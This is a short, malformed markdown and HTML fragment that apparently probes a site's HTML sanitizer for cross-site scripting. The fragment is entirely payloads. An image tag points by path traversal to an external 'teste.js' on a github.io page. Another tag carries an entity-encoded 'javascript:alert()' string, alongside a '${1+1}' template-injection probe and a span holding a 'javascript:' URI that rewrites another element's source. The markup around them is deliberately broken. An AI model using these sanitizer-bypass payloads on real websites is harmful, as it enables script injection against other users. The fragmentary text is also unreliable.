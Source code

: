 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img id="meu" src="" tabindex=>&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
